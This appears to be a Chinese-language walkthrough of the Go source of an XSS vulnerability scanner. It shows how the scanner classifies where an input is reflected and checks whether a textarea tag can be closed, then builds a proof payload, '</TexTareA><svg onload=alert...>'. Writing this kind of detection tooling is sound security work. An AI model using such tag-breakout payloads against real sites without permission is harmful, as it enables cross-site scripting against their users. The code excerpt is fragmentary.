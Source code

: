 ```go
	}
```

判断输入点
```go
occurrences := xss.SearchInputInResponse(xssChecker, newBody)
if len(occurrences) == 0 {
    payloads = append(payloads, xss.checkWhenNoOccur(link, testParams, k)...)
}

for _, occur := range occurrences {
    switch occur.Type {
    case TypeOccurInHTML:
        payloads = append(payloads, xss.checkOccurInHTML(link, occur, testParams, k)...)
    case TypeOccurInAttribute:
        payloads = append(payloads, xss.checkOccurInAttributes(link, occur, testParams, k)...)
    case TypeOccurInComment:
        payloads = append(payloads, xss.checkOccurInAComment(link, testParams, k)...)
    case TypeOccurInScript:
        payloads = append(payloads, xss.checkOccurInScript(link, occur, testParams, k)...)
    }
}
```


以TypeOccurInHTML类型举例子
```html
<html>
<body>
<textarea>
<div>
<img src=可控点>
</div>
</textarea>
</body>
</html>
```
判断是否成功闭合逃逸标签/符号
```go
flag := RandomString(6) //tlZktl
payload := fmt.Sprintf("</%s><%s>", randomUpper(occur.Tokenizer.TagName), flag) // </TexTareA><tlZktl>
testParams[field] = payload

occurs, verify, err := xss.check(link, testParams, flag)
if err != nil {
    log.Error(err)
    return payloads
}

for _, o := range occurs {
    if o.Tokenizer.TagName == strings.ToLower(flag) {
        // html标签可被闭合
        payloads = append(payloads, xss.makeResult(field, fmt.Sprintf("</%s><svg onload=alert`%s`>", randomUpper(occur.Tokenizer.TagName), flag), link.URL, link.Data, flag, verify))
        break
    }
}
```
